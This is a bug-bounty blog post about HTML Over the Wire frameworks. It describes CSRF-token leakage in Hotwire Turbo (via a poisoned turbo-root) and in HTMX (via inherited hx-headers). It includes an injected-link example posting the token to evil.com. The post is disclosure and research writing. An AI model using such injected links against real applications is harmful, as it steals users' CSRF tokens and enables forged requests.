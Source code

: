 ```yaml
---
layout: post
title:  "HTML Over the Wire"
date:   2023-07-30
categories: bugbounty
---
```


*A new web app architecture pattern is being adopted by many popular frameworks. Let's talk about risk!*

--- 

# What is HTML Over the Wire? A brief history of web app tech.  

***TL;DR: Early web applications made you wait after every click until it could render an HTML response on the server and send it back. SPAs made the web more responsive by handling interactions in the background and updating the UI by sending XHR requests in the background to JSON/XML apis. A new pattern has recently emerged that attempts to combine these two approaches, but brings with it some interesting and dangerous new functionality.*** [Skip Ahead](#A)

I'm old enough to remember a time before reactive, responsive single-page web applications (SPA) were the norm. Heck I'm old enough to remember a time before the vast majority of the web was dynamic at all, but I want to talk about a time somewhere between ancient history and the modern web. 

Back then, users interacted with websites through simple actions like submitting forms and clicking links. When you performed any of these actions, the browser would send a request to the server and then pause to wait for a response. The server, upon receiving the request, would process the input and generate an entirely new HTML document. This freshly generated page would be returned to the browser, and the whole cycle would start again for each new action. 

The problem with this approach was that it felt really slow and cumbersome having to wait for the full request/response cycle to complete after every click. To deal with this, web developers began using javascript to create real-time responsive interactions on the page. Clicking a button could fire off an AJAX / XHR request in the background and display some new data without having to reload the entire page. Eventually, entire libraries and frameworks were developed to make these "responsive" interactions more accessible. And now, the most common architecture we see in modern web applications is the SPA pattern, where the application runs almost entirely on the client and uses asynchronous / background http requests to JSON APIs to populate the app with dynamic data. 

This is much more performant. SPAs are snappy and react instantly when you click on things. The modern web just feels nice compared to the clunky, cumbersome apps of old. But it's not perfect. Generally, an SPA sends a fetch request to collect some data from the server. That response is generally wrapped up in JSON or XML, and then the client is expected to parse it, process it, and reflect it in the UI using javascript. The frameworks that enable this can be very complex and very weighty, and developers have to write a lot of custom javascript to get things working correctly. But, as is always the way with these things, pain brings innovation. Over the last few years popular frameworks have been adopting a new approach to web application architecture. 

HTML Over the Wire, sometimes called "FROW" or "fragments over the wire", is a web application architecture that attempts to combine the simplicity of the ancient practice of rendering HTML on the server with the snappy responsiveness common in single-page applications. By rendering HTML on the server, you can significantly reduce the need for custom javascript in the frontend. Then, you can retrieve the rendered HTML using asynchronous fetch requests that dynamically update portions of the rendered page without a full reload. 

---
<a name="A"></a>
Some of the libraries and framework extensions that attempt to enable HTML Over the Wire include 
  - Hotwire Turbo - default frontend framework that ships with Rails 7
  - Unpoly - framework agnostic javascript library
  - HTMX - another framework agnostic javascript library, one of the earliest HOTW libraries
  - Laravel Livewire - HOTW for Laravel applications 
  - Phoenix Liveview - HOTW for elixir applications
  - Django Sockpuppet - HTML over websockets, a different approach with the same goal and similar risks.
  - more?
    
This writeup details a security concern related to a single specific feature common to many of these libraries. After spending a few hours in documentation hell, I had a hypothesis about a particular issue that I expected to find in some of them. I tested for it in Hotwire Turbo, HTMX, and unpoly and only unpoly handled it safely. I suspect this issue, and many more related issues, exist in these frameworks. I hope this article prompts some of you to find more!

---

# Clicking links is not just for GET requests anymore. 

When you click a link on a website, you don't want to have to wait for a full page reload. You can accomplish this with javascript by intercepting the link click, firing off a `fetch()` in the background, and updating the UI without reloading the page. Almost every HOTW library does this automatically without the need for any custom javascript. Every link click and form submission is intercepted, the default browser behaviour is interrupted, and the request is instead sent using fetch() / XHR. 

The default browser behaviour for handling a link click is extremely simple. It just sends a GET request. But, now that we're handling link clicks with fetch we could potentially make them a lot more powerful. Given that HOTW wants to reduce the need for custom javascript, many of these frameworks expose some of the most powerful fetch() API features through HTML attributes. 

For example, in hotwire turbo you get this handy syntax:
```
<a href="..." data-turbo-method="POST">Click me to post!</a>
```

in HTMX you have:
```
<a href="..." hx-post="http://something.com">Click me to post!</a>
```

in Unpoly you have:
```
<a href="..." up-method="POST">Click me to post!</a>
```

Similar features exist in other HOTW libraries. You can probably already see the potential here. Simple link injections just got a lot more interesting. 

Some of these libraries even allow you to attach headers to the request in the same way. With HTMX you can do this using:
```
<a href="..." hx-headers='{"Header": "Value"}'>Click me!</a>
```

And with unpoly:
```
<a href="..." un-headers='{"Header": "Value"}'>Click me!</a>
```

You probably already have some ideas for how these features could be leveraged in attack chains. The rest of this article will focus on a specific issue I was able to exploit in both Hotwire Turbo and HTMX. This is a fairly simple bug and I'm certain there are many cooler things to discover. 

---

# CSRF Token Exposure. 

A lot of web app frameworks will read CSRF tokens from headers. Rails, for example, will read the csrf token from the `x-csrf-token` header, and django will read it from `x-csrftoken`. This is a fairly common convenience for SPA style applications. The framework will embed a <meta> tag containing the token in the HTML so it can be accessed by javascript and attached as a header to fetch requests. 

![image](https://github.com/tehryanx/tehryanx.github.io/assets/8878295/2305261e-a674-4fd5-93e3-faf53eae5c67)

Of course, HOTW wants to minimize custom javascript, so they often implement simplified ways to access these tokens. For example, let's look at how this works in Hotwire Turbo. 

When you submit a form, or click a link in a turbo-enabled app, turbo interrupts the default browser behaviour to determine how to handle sending the request. If the destination of the request is to an offsite location on a completely different host, turbo will hand control back over to the browser so that it can process the request in the normal way. If it's a relative path to a local resource, turbo will handle the request asynchronously using fetch. 

Turbo allows you to specify a "turbo-root" directive in a meta tag. This allows you to further restrict what links will be processed by turbo. You set the turbo-root to a local path, and only links to that path will be processed by turbo. At least, that's how it's supposed to work according to this documentation: 
![image](https://github.com/tehryanx/tehryanx.github.io/assets/8878295/927fea12-5c2f-49a5-b823-3423384bad18)

In reality, there's nothing preventing you from setting your turbo root to a fully qualified URL pointing to an off-site location. Unfortunately, when you click a turbo-enabled POST link that matches the turbo-root, the CSRF token is sent along. This means that if you can poison the turbo root and inject a link you can extract a csrf token. I've seen this in an exploitable context where the turbo-root was dynamically set to a user-controlled path, and link injection was possible on the same page. 

Note in the following image, a request to localhost happily shipped the csrf-token to evil.com. (the 405 error is just because I'm using an instance of node `http-server` that doesn't accept post requests) 
![image](https://github.com/tehryanx/tehryanx.github.io/assets/8878295/1102201e-6593-46dd-bf0c-66f0b25e1ca1)

This bug was reported to the Hotwire Turbo maintainers months ago, but no patch has been released. 

---

A similar issue exists in HTMX. With this framework you can attach an hx-header attribute to some tag, and have the functionality cascade to links and forms that are children of that element. This is actually recommended in the documentation:

![image](https://github.com/tehryanx/tehryanx.github.io/assets/8878295/1f57f420-1e06-495b-8653-9e859a7bb1d0)

Unfortunately, there's nothing in place to prevent sending this header to cross-origin hosts. If a page has this hx-header attribute in the body tag, injecting a POST link anywhere in the body will result in the CSRF tag being sent to wherever that link is pointing, even if it's another domain. 

So in an application that follows the documentation where the body tag includes the hx-headers directive, and a link later in the body points to a domain controlled by the attacker:
```
<body hx-headers='{"X-CSRFToken": "{{ csrf_token }}"}'>
...
<a hx-post="http://evil.com:8008">TEST</a>
```

Again note that the HTMX app is running on localhost, but sending the csrf token to evil.com. (again the 405 is just the servers response to any POST req.)
![image](https://github.com/tehryanx/tehryanx.github.io/assets/8878295/01a7a622-3f3d-4b7f-85a4-e751bc68d33c)

---

These are two simple attacks leveraging some of the design philosophies built into this new HTML Over the Wire architecture. I have no doubt that many more interesting attacks will be discovered. Happy hacking!
